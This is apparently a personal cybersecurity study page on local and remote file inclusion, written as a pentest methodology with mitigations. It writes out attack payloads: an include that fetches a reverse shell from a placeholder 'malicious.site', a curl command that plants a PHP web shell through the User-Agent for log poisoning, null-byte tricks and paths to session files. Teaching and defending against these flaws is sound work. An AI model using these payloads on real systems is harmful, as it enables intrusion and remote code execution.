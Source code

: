 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

Files inclusion refers to websites that are importing a file based or using the user input. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the input is not filtered/validated, a hacker may include arbitrary content using [Path traversal](traversal.md) such as an uploaded script.
</div><div>

There are two categories of file inclusion

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

Template engines are more likely to contain LFI/RFI. They can lead to code/data exposure, which may further compromise the company.

⚠️ For RFI, always try a local URL that is likely not blocked by a firewall first <small>(ex: `http://127.0.0.1:80/index.php`)</small>. Alternatively, you may try `ftp://` or `\\IP\share\` on Windows.
</div></div>

<hr class="sep-both">

## Basic Methodology

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI, such as:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.
</div><div>

Assuming we have `page=about`.

* Test Path `./about`
* Test Null-Byte `./about.php%00`
* Test a Path `../<folder name>/about`
* Test Architecture-specific payloads, such as `php://filter`
* Test Remote Inclusion
* ...
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![php_filters](../../../../_badges/rootme/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)

<div class="row row-cols-lg-2"><div>

The website `http://vulnerable.site/?lang=FR` is doing an include using `$_GET["lang"]` as seen below.

```php!
include "lang/$_GET[lang].php"
```

We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack.

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png"
```
</div><div>

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php"
```

**Additional notes**:

* The **null byte `%00`** could be used in **PHP < 5.3.4** to ignore trailing extensions such as `.png` below:

```php!
include "xxx.png%00.php" // include xxx.png
```

* The PHP string truncation could be used in **PHP < 5.3.0** as strings longer than 4096 were truncated.
</div></div>

<hr class="sep-both">

## Log Poisoning

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use *user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If allowing paths, refer to path traversal mitigations
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `/var/log/sshd.log`
* `/var/log/vsftpd.log`
</div><div>

* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.5k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div></div>